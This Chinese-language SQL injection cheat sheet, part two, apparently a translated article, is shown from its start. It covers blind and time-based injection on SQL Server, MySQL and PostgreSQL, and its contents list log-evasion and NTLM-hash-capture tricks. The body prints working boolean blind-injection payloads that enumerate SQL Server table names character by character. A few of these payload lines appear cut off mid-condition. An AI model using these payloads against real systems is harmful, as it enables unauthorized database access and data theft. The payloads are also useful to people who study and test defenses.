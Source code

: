 # SQL注入速查表（下）与Oracle注入速查表

一、SQL注入速查表（下）
=====

### 0x00 目录

1.  盲注
    1.  关于盲注
    2.  实战中的盲注实例
2.  延时盲注
    1.  `WAITFOR DELAY [time]`(S)
    2.  实例
    3.  `BENCHMARK()`(M)
    4.  实例
    5.  `pg_sleep(seconds)`(P)
3.  掩盖痕迹
    1.  `-sp_password log bypass`(S)
4.  注入测试
5.  一些其他的MySQL笔记
    1.  MySQL中好用的函数
6.  SQL注入的高级使用
    1.  强制SQL Server来得到NTLM哈希
    2.  Bulk insert UNC共享文件 (S)

### 0x01 盲注

#### 关于盲注

一个经过完整而优秀开发的应用一般来说你是**看不到错误提示的**，所以你是没办法从`Union`攻击和错误中提取出数据的

**一般盲注**，你不能在页面中看到响应，但是你依然能同个HTTP状态码得知查询的结果

**完全盲注**，你无论怎么输入都完全看不到任何变化。你只能通过日志或者其它什么的来注入。虽然不怎么常见。

在一般盲注下你能够使用**If语句**或者**WHERE查询注入\***|(一般来说比较简单)*，在完全盲注下你需要使用一些延时函数并分析响应时间。为此在`SQL Server`中你需要使用`WAIT FOR DELAY '0:0:10'`，在MySQL中使用`BENCHMARK()`，在`PostgreSQL`中使用`pg_sleep(10)`，以及在`ORACLE`中的一些`PL/SQL小技巧`。

#### 实战中的盲注实例

以下的输出来自一个真实的私人盲注工具在测试一个`SQL Server`后端应用并且遍历表名这些请求完成了第一个表的第一个字符。由于是自动化攻击，SQL查询比实际需求稍微复杂一点。其中我们使用了二分搜索来探测字符的ASCII码。

**TRUE**和**FALSE**标志代表了查询返回了`true`或`false`

```
TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78-- 

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>103-- 

TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 

FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>89-- 

TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 
```